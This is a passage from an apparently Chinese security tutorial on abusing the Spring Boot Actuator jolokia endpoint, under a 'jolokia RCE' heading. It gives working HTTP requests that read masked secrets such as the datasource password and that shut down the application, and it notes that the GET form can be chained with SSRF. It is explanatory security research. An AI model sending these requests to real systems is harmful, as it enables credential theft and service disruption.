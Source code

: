 核心加载方法位于BeanDefinitionLoader.load(Resource) line: 180	  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDBiaia5Lic3ZJibKAL81v2JLnstU5b2NwvXicdNES4ShTef9YRL4OLz7AiaOA/640?wx_fmt=png&from=appmsg "")  
  
  
  
三、	jolokia RCE  
  
  
1，jolokia用法  
  
jolokia同样并非actuator默认组件，需要如下依赖  
```
    <dependency>
      <groupId>org.jolokia</groupId>
      <artifactId>jolokia-core</artifactId>
    </dependency>
```  
  
其核心功能就是调用mbean，具体有哪些mbean访问/actuator/jolokia/list可以查看。  
  
比如常用的getProperty，可以拿来查看env那些被星号掩码的密码相关属性。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDlwosVNCgbMUmk5aLSJgu0ud5y3BbfYNY08W2Kh16B8vl1sibaic8fD7Q/640?wx_fmt=png&from=appmsg "")  
  
具体代码位于org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar$SpringApplicationAdmin  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDFJo3NKwFtJU8vsyliaYBmoW2Ley10N4J0wib8emtmxIEh5YDfZxl5nBQ/640?wx_fmt=png&from=appmsg "")  
  
存在两种调用格式，后者由于是纯GET请求，所以实战中可以跟SSRF配合。且GET这种由于使用【/】分割，传参时需要用【/】时可以替换成【!/】  
```
POST /actuator/jolokia HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 159

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["spring.datasource.password"]}
```  
```
GET /actuator/jolokia/exec/org.springframework.boot:name=SpringApplication,type=Admin/getProperty/spring.datasource.password HTTP/1.1
Host: 127.0.0.1:9999


```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUD44CAgZqv2iaO54ljPcJxoYKMK6oeTGia3zMfcJCxjPMpQSxicCw3ZiaSBA/640?wx_fmt=png&from=appmsg "")  
  
  
那么shutdown也很容易做到了。  
  
PS：用jolokia进行shutdown/restart依旧受到management.endpoint配置影响。  
```
POST /actuator/jolokia HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 112

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "shutdown", "type": "EXEC",}
```  
  